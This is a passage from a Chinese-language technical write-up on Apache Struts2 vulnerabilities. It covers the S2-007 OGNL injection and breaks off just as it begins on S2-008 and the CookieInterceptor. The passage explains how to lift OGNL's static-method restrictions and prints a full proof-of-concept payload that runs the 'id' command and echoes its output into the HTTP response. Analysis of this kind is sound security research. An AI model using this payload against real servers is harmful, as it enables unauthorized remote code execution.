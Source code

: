 xwork>=2.2.3，ognl表达式计算时，调用函数的函数判断`isAcceptableProperty`如果name为null直接返回true，所以我们不用像s2-005那样把`excludeProperties`置为空集合。

![image-20200509120444634](/images/talk_about_struts2/image-20200509120444634.png)

但是从这里开始，`allowStaticMethodAccess`默认为false，我们需要将其置为true，才能正常执行静态函数。

所以POC第一二句都是在解除限制，第三句执行命令

写一下回显的POC

```java
'+ (
#_memberAccess.allowStaticMethodAccess=true,
#context['xwork.MethodAccessor.denyMethodExecution']=false,
#ret=@java.lang.Runtime@getRuntime().exec('id'),
#isr=new java.io.InputStreamReader(#ret.getInputStream()),
#br=new java.io.BufferedReader(#isr),
#res=new char[2000],
#br.read(#res),
#writer=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].getWriter(),
#writer.println(new java.lang.String(#res)),
#writer.flush(),
#writer.close()
) +'
```

## 5. S2-008

S2-008一共有4个漏洞，详细看https://cwiki.apache.org/confluence/display/WW/S2-008

其中1跟S2-007类似，3不看了，主要关注2和4

### CookieInterceptor
